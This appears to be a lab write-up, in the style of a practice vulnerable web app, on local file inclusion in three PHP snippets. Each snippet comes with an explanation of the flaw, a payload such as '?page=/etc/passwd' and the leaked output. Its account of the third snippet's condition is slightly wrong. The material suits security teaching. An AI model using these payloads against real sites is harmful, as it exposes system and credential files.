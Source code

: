 # Vulnerable Code 1
This code gets "page" parameter via GET request and show to the user.

```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];
?>
```


## Abuse

The problem here there is no input sanitization which we can include any file and read content of it.

## Payload

```php
?page=/etc/passwd
```


## Result


```php
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin 
	sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin 
		man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sb....
```

# Vulnerable Code 2

```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\"" ), "", $file );

?> 
```

## Abuse

The problem here, there is input sanitizing but it prevent us to include relative files, still we can include absolute path inside of machine

## Payload

```php
?page=/etc/passwd
```

## Result

```php
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin
	sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin 
		man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail....
```

# Vulnerable Code 3

```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
if( !fnmatch( "file*", $file ) && $file != "include.php" ) {
    // This isn't the page we want!
    echo "ERROR: File not found!";
    exit;
}

?> 
```

## Abuse

Problem here, code gets a file and there is 2 condition:

- File should start with "file"
- File shouldn't be "include.php"

Application expect us to read content of "file1" "file2" "file3" if we enumerate numbers near the files we can read secret file that doens't shown the user

## Payload

```php
?page=file4.php
```

## Result

```php
Good job!
This file isn't listed at all. If you are reading this, you did something right ;-)
```